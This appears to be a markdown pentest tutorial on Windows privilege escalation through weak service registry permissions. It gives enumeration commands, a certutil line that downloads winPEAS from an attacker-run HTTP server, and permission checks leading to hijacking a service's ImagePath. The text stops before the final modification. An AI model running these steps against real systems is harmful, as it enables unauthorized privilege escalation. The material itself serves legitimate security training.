

### **HUNTING FOR WEAK REGISTRY KEY MANUALLY**

1.  Hunting for Weak Registry Key Permissions with PowerShell  
    `Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\SystemServicesACLs.txt`
    
2.  Transfer the file to your machine (see the file transfer section), By using some Linux commands, This will help us identify any outliers more easily  
    `cat SystemServicesACLs.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey" | grep -B 1 -i "Authenticated Users|\BUILTIN\\\Users\|Everyone\|INTERACTIVE\|FullControl\|Modify\|Write"`
    

### **HUNTING FOR WEAK REGISTRY KEY WITH WINPEAS**

1.  Since the target runs a 64-bit OS, we can send 64-bit winPEAS via a Python HTTP server..  
    `python3 -m http.server 8000`  
    
    

    **NOTE:** We have identified that the target machine is a 64-bit architecture using the following command:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to target machine Using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/winPEASx64.exe winPEASx64.exe`  
    
    
    
3.  Now, all we need to do is run winPEAS to search for weak Registry permissions:  
    `.\winPEASx64.exe`  
    
    

    **NOTE:** FullControl and Take ownership privileges can be exploited to take advantage of weak registry permissions.
    

### **ENUMERATING THE WEAK SERVICE REGISTRY KEY WE FOUND**

1.  We can enumerate the service directly using cmd.exe  
    `reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc"`  
    
    
    
2.  We can enumerate the service directly using PowerShell:  
    `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc' | Select-Object *`  
    
    

    **START 0: BOOT START** **:** Loaded by the OS loader before other services.  
    **START 1: SYSTEM START** **:** Started during the system boot.  
    **START 2: AUTOMATIC START** **:** Started automatically by the Service Control Manager during system startup.  
    **START 3: MANUAL START** **:** Must be started manually by a user or application.  
    **START 4: DISABLED** **:** The service is disabled and will not start.
    
3.  To verify permissions with icacls, it's important to understand the permissions for each directory.  
    Check [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) to learn more about permissions.  
    
    
    
4.  we can enumerate the permissions on the C:\\Program Files\\Juggernaut folder or the Juggernaut.exe file, we will likely find that we do not have permissions to replace the binary with a malicious one.  
    `icacls "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"`  
    `icacls "C:\Program Files\Insecure Registry Service"`  
    
    

    **NOTE:** From the output, we see the current user belongs to the BUILTIN\\Users group, which lacks (F), (M), or (W) permissions, meaning we cannot modify the file from the original ImagePath.
    
5.  This is where it gets interesting. With permissions to modify the registry key, we can change the ImagePath to point to a file we control.  
    `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`  
    
    

    `whoami /groups`  
    
    

    **NOTE:** The output confirms the user is part of the "NT AUTHORITY\\INTERACTIVE" group, which has FullControl permissions on the regsvc registry key, allowing the exploitation of weak registry key permissions.